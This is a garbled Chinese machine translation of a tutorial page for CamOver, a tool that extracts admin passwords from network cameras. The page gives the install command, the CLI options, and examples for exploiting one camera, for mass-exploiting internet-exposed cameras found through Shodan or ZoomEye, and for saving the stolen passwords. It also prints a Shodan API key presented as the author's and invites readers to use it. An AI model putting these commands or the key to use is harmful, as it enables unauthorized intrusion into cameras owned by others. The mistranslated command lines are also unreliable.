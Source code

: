 # CamOver:一个允许泄露网络摄像头管理员密码的摄像头利用工具

> 原文：<https://kalilinuxtutorials.com/camover/>

[![CamOver : A Camera Exploitation Tool That Allows To Disclosure Network Camera Admin Password](img//0331eaab4444b9aedc88e80dfbe83db6.png "CamOver : A Camera Exploitation Tool That Allows To Disclosure Network Camera Admin Password")](https://1.bp.blogspot.com/-SV9CITT4jps/YN7nwojfoPI/AAAAAAAAJyQ/HPGp7DbtJKQBLYi0tC4i5YbdytT0iFLMACLcBGAsYHQ/s728/CamOver%25281%2529.png)

CamOver 是一个允许泄露网络摄像头管理员密码的摄像头利用工具。

**特性**

*   利用最流行的相机型号中的漏洞，如`CCTV`、`GoAhead`和`Netwave`。
*   经过优化，可在启用线程的情况下同时利用列表中的多个摄像头。
*   简单的 CLI 和 API 用法。

**安装**

**pip3 安装 git+https://github . com/enty sec/CamOver**

**基本用法**

要使用它，只需在您的终端中键入`**camover**`。

**用法:CamOver[-h][-t][-o OUTPUT][-I INPUT][-a ADDRESS][–shod an shod an]
[–zoo meye zoo meye][-p PAGES]
CamOver 是一款允许泄露网络摄像头
管理员密码的摄像头利用工具。
可选参数:
-h，–help 显示此帮助消息并退出
-t，–线程使用线程进行最快的工作。
-o 输出，–输出输出
输出结果到文件。
-i 输入，–INPUT 输入
输入文件的地址。
-一个地址，–地址地址
单个地址。
–SHODAN SHODAN SHODAN API 密钥，用于通过互联网利用设备。
–用于通过互联网利用设备的 zoomeye ZOOMEYE ZoomEye API 密钥。
-p PAGES，–PAGES PAGES
你想从 ZoomEye 获取的页数。**

**例题**

**利用单个摄像头**

让我们黑了我的相机只是为了好玩。

192.168.99.100

**利用互联网上的摄像头**

让我们尝试使用 Shodan 搜索引擎来开发互联网上的摄像头，我们将使用它与 **`-t`** 进行快速开发。

**camover-t–shodan PSK qe1 gyxggecyz 2191 h2jos 9 qvgd**

**注意:**给定的 Shodan API key **( `PSKINdQe1GyxGgecYz2191H2JoS9qvgD` )** 是我的 PRO API key，你可以使用这个 key 或者你自己的，可以自由的免费使用我们所有的资源🙂

**利用输入文件中的摄像机**

让我们试着使用 **`-t`** 的开放式摄像机数据库进行快速开发。

**camover-t-I camera s . txt-o passwords . txt**

**注意:**会根据地址利用`**cameras.txt**`列表中的所有摄像机，并将获得的所有密码保存到 **`passwords.txt`。**

**API 使用**

CamOver 也有自己的 Python API，可以通过将 CamOver 导入到代码中来调用。

**从 camover 进口 CamOver**

**基本功能**

有所有的 CamOver 基本功能，可以用来开发指定的相机。

`**exploit(address)**`–利用给定地址的单个摄像头。

**例题**

**利用单个摄像头**

**从 camover 进口 CamOver
CamOver = CamOver()
creds = CamOver . exploit(' 192 . 168 . 99 . 100 ')
print(creds)**

[**Download**](https://github.com/EntySec/CamOver)
